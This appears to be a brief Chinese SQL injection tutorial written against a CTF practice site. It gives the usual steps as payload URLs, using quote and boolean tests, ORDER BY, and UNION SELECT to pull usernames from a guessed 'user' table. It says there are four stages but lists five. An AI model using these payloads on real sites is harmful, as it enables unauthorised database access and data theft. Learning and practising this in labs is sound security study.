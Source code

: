 概念：sql注入利用sql语法的逻辑漏洞，向执行的sql语句中传入 非法（非预期）的值。从而达成非法的目的。

sql注入分为四个阶段。

1.测试有无注入点。

2. 获得字段数

3.获得显示位

4.猜表名

5.猜字段

例如：

1.判断是否有注入点

加单引号

http://ctf5.shiyanbar.com/423/web/?id=1'

如果有报错说明此处可能有注入点

![](images/9B54B5661BFF42CDA12616E2322F3361clipboard.png)

接下来再判断，

http://ctf5.shiyanbar.com/423/web/?id=1+and+1=1

![](images/32DDF79CE2B34D5F9B599488D872803Bclipboard.png)

http://ctf5.shiyanbar.com/423/web/?id=1+and+1=2

如果两个返回的界面不一样，基本可以确定这个地方有注入点

2.获得字段数（确定

http://ctf5.shiyanbar.com/423/web/?id=2+order+by+7



3.获得显示位(回显）

http://ctf5.shiyanbar.com/423/web/?id=2+union+select+1，2，3.....获得的字段数



4.猜表名

http://ctf5.shiyanbar.com/423/web/?id=2+union+select+1，2，3+from+user（猜的表名）



5.猜字段

http://ctf5.shiyanbar.com/423/web/?id=2+union+select+1，concat(username)，3+from+user


































